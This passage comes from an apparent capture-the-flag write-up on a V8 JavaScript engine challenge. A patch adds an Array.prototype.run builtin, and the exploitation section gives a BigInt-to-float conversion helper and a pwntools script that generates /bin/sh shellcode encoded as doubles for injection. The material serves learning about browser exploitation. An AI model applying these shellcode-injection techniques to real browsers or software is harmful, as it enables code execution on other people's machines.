 ```diff
diff --git a/src/init/bootstrapper.cc b/src/init/bootstrapper.cc
index 48249695b7b..40a762c24c8 100644
--- a/src/init/bootstrapper.cc
+++ b/src/init/bootstrapper.cc
+    SimpleInstallFunction(isolate_, proto, "run",
+                          Builtin::kArrayRun, 0, false);
```

The line `CPP(ArrayRun)` registers the `ArrayRun` function as a built-in in V8. The additions in `typer.cc` updates the type system to recognize `ArrayRun`. `SimpleInstallFunction` exposes the `ArrayRun` function to JavaScript as `Array.prototype.run`. 

### Exploitation

Okay, so now since we've understood the bug, let's try getting a shell form it. This challenge is very similar to the [Kit Engine](https://ir0nstone.gitbook.io/notes/binexp/browser-exploitation/picoctf-2021-kit-engine) challenge of [picoCTF](https://picoctf.org/) 2021.

Since the Array should be populated with double numbers, we need to inject shellcode by encoding it as floating-point numbers instead of using raw integers. We can write a function to do this -

```js
var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function itof(val) { 
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}
```
This function converts a `64-bit BigInt (val)` into a JavaScript Number that shares the same underlying bit representation. This is done by extracting the lower 32 bits using `val & 0xffffffffn` and the upper `32 bits` with `val >> 32n`. These two 32-bit chunks are then stored in a shared `ArrayBuffer` through the `Uint32Array view (u64_buf)`, with the lower bits placed at index `0` and the upper bits at index `1`. Finally, reading `f64_buf[0]`—the `Float64Array` view over the same buffer—returns a 64-bit float that has the exact same bitwise layout as the original integer. This allows us to reinterpret a 64-bit unsigned integer `(BigInt)` as a JavaScript `Number` (which uses a 64-bit IEEE-754 floating point format).

We now need to convert our raw shellcode into floating-point numbers. We can use [pwntools](https://github.com/Gallopsled/pwntools) and a simple python script to achieve this -

```python
from pwn import *

# set context
context.os = 'linux'
context.arch = 'amd64'

# Shellcode for execve("/bin/sh", NULL, NULL)
shellcode = asm(shellcraft.sh())
# NOP Padding
shellcode += b'\x90' * 4

# Shellcode Conversion
shellcode = [hex(c)[2:].rjust(2, '0') for c in shellcode]
eight_bytes = ['0x' + ''.join(shellcode[i:i+8][::-1]) for i in range(0, len(shellcode), 8)]

print(eight_bytes)
```
